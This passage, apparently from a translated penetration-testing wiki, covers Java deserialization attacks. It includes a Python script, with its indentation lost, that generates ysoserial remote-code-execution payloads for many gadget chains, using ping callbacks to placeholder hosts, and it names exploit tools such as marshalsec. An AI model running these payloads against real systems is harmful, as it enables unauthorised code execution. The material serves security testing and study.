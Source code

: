 Kada kreirate payload za **java.lang.Runtime.exec()**, **ne možete koristiti posebne karaktere** poput ">" ili "|" za preusmjeravanje izlaza izvršenja, "$()" za izvršavanje komandi ili čak **prosljeđivanje argumenata** komandi odvojenih **razmacima** (možete koristiti `echo -n "hello world"`, ali ne možete koristiti `python2 -c 'print "Hello world"'`). Da biste pravilno enkodovali payload, možete [koristiti ovu veb stranicu](http://www.jackson-t.ca/runtime-exec-payloads.html).

Slobodno koristite sledeći skript za kreiranje **svih mogućih payloada za izvršavanje koda** za Windows i Linux, a zatim ih testirajte na ranjivoj veb stranici:

```python
import os
import base64

# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
for payload in payloads:
final = cmd.replace('REPLACE', payload)
print 'Generating ' + payload + ' for ' + name + '...'
command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
result = command.read()
command.close()
encoded = base64.b64encode(result)
if encoded != "":
open(name + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```

#### serialkillerbypassgadgets

Možete **koristiti** [**https://github.com/pwntester/SerialKillerBypassGadgetCollection**](https://github.com/pwntester/SerialKillerBypassGadgetCollection) **zajedno sa ysoserialom da biste kreirali više eksploata**. Više informacija o ovom alatu možete pronaći u **prezentaciji** gde je alat predstavljen: [https://es.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class?next\_slideshow=1](https://es.slideshare.net/codewhitesec/java-deserialization-vulnerabilities-the-forgotten-bug-class?next\_slideshow=1)

#### marshalsec

[**marshalsec**](https://github.com/mbechler/marshalsec) može se koristiti za generisanje payloada za iskorišćavanje različitih biblioteka za serijalizaciju **Json** i **Yml** u Javi.\
Da biste kompajlirali projekat, morao sam **dodati** ove **zavisnosti** u `pom.xml` fajl:

```markup
<dependency>
<groupId>javax.activation</groupId>
<artifactId>activation</artifactId>
<version>1.1.1</version>
</dependency>

<dependency>
<groupId>com.sun.jndi</groupId>
<artifactId>rmiregistry</artifactId>
<version>1.2.1</version>
<type>pom</type>
</dependency>
```
